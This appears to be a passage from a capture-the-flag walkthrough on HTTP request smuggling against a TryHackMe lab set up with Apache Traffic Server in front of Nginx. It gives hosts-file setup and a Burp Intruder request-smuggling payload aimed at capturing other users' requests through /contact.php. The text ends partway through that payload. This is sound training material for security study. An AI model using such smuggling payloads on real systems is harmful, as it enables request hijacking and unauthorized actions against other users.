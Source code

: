 The smuggled request with the `isadmin=true` parameter is processed by the back-end server as if it were a legitimate, separate request. This could lead to unauthorized actions or data modifications, depending on the server's functionality and the nature of the /update endpoint.

**What does TE.TE stand for?**
> `Transfer-Encoding/Transfer-Encoding`


## Walkthrough
The vulnerable environemtn has ATS(Apache Traffic Server) as the front-end proxy, Nginx as the web-server back-end, and PHP processing the dynamic content. Due to differences in how ATS and Nginx prioritise `Content-Length` and `Transfer-Encoding` headers, there is a potential for HTTP request smuggling. Start by adding `httprequestsmuggling.thm` to your `/etc/hosts` file.
```bash
127.0.0.1       localhost
127.0.1.1       tryhackme.lan   tryhackme
10.10.229.32     httprequestsmuggling.thm
# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

#### Assessing the Application

The web application for this room uses the link [http://httprequestsmuggling.thm](http://httprequestsmuggling.thm). It features a Home, Login, and Contact form that enables users to access and send feedback to the developer. For demonstration, the submitted queries are saved to the `/submissions` directory. Below is the screenshot of the application:   

![Homepage of he vulnerable application](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/0e26eb0459ab05311e384cff54f6397a.png)  

  

#### Exploiting the Application

Using Burp Suite Proxy, intercept a request sent to the website's index. This request will become the baseline we will use to exploit the vulnerable application.

![Baseline request to be used for smuggling](https://tryhackme-images.s3.amazonaws.com/user-uploads/645b19f5d5848d004ab9c9e2/room-content/540e182a50bb92584e87197341c461f4.png)  

Send the request to Intruder and copy-paste the below payload to the Payload positions box.

Payload

```
POST / HTTP/1.1 
Host: httprequestsmuggling.thm 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 160 
Transfer-Encoding: chunked  

0  

POST /contact.php HTTP/1.1 
Host: httprequestsmuggling.thm 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 500 

username=test&query=§`
```        
